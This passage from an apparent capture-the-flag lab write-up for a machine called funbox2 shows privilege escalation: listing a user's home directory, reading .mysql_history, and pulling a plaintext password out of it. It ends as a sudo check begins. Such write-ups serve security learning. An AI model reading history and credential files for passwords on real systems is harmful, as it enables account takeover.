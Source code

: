 

### Privilege Escalation (vector 1)

Let's look at the contents of the home directory.

```
tom@funbox2:~$ ls -la
total 52
drwxr-xr-x 7 tom  tom  4096 Aug 11 06:32 .
drwxr-xr-x 3 root root 4096 Jul 25  2020 ..
-rw------- 1 tom  tom   156 Aug 11 06:29 .bash_history
-rw-r--r-- 1 tom  tom   220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 tom  tom  3771 Apr  4  2018 .bashrc
drwx------ 2 tom  tom  4096 Aug 11 06:20 .cache
drwxr-x--- 3 tom  tom  4096 Aug 11 06:32 .config
drwx------ 3 tom  tom  4096 Aug 11 06:32 .gnupg
-rw-r--r-- 1 tom  tom    33 Aug 11 05:46 local.txt
-rw------- 1 tom  tom   295 Jul 25  2020 .mysql_history
-rw-r--r-- 1 tom  tom   807 Apr  4  2018 .profile
drwx------ 2 tom  tom  4096 Jul 25  2020 .ssh
drwxrwxr-x 2 tom  tom  4096 Aug 11 06:30 tmp
```

Let's cat out the `.msql_history` file.

```
tom@funbox2:~$ cat .mysql_history 
_HiStOrY_V2_
show\040databases;
quit
create\040database\040'support';
create\040database\040support;
use\040support
create\040table\040users;
show\040tables
;
select\040*\040from\040support
;
show\040tables;
select\040*\040from\040support;
insert\040into\040support\040(tom,\040xx11yy22!);
quit
```

Seems like tom's password is `xx11yy22!`.

| Username | Password  |
| -------- | --------- |
| tom      | xx11yy22! |

#### Misconfigured `sudo` privileges

Let's check what commands `tom` can run with `root` privileges without needing a password. When prompted, we have to provide the password we just found.
